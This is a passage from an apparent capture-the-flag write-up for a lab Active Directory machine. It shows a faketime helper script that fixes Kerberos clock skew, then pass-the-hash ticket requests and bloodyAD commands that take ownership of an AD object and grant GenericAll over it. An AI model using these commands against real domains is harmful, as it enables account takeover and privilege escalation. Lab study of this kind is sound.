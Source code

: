 [Optional] You can just do a `ntpdate $IP` 

This Bash script syncs the system clock with an **NTP server** and then runs a command with a **time offset** using `faketime`.

`fk.sh`

```bash
#!/bin/bash
# Usage example: ./fk.sh $ip <command>

if [ $# -lt 2 ]; then
    echo "Usage: $0 <ip> <command>"
    exit 1
fi

ip="$1"
shift
command="$@"

echo "[*] Querying offset from: $ip"

# Extracting offset from NTP
offset_float=$(ntpdate "$ip" 2>&1 | grep -oP 'CLOCK: time stepped by \K[0-9.]+')
if [ -z "$offset_float" ]; then
    echo "[!] Failed to extract valid offset from ntpdate."
    exit 1
fi

# Format offset for faketime
faketime_fmt="+${offset_float}s"

echo "[*] faketime format: $faketime_fmt"
echo "[*] Running: $command"

# Execute the command with faketime
faketime -f "$faketime_fmt" $command
```

Creating a Ticket for `HAZE-IT-BACKUP$`

```bash
./fk.sh 10.10.11.61 getTGT.py haze.htb/Haze-IT-Backup\$ -hashes ':a70df6599d5eab1502b38f9c1c3fd828'
```

This command uses `bloodyAD` to change the **owner of the "SUPPORT_SERVICES" AD object** to `Haze-IT-Backup$`, authenticated via **Kerberos**, on the **dc01.haze.htb** Domain Controller in the **haze.htb** domain.

```bash
./fk.sh $IP \
bloodyAD --host "dc01.haze.htb" -d "haze.htb" -u 'Haze-IT-Backup$' -k \
set owner "SUPPORT_SERVICES" 'Haze-IT-Backup$'
```

This command grants **Haze-IT-Backup$** the **GenericAll** privilege (full control) over the **SUPPORT_SERVICES** user object in Active Directory on **dc01.haze.htb**, using **Kerberos authentication**. 
